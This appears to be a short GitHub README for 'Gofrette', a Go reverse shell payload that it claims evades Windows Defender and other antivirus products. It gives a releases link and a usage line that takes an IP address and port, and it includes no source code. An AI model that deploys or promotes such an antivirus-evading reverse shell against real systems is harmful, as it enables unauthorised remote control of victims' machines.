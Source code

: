 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.

## Releases
https://github.com/Enelg52/Gofrette/releases

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Contributing
Pull requests are welcome !
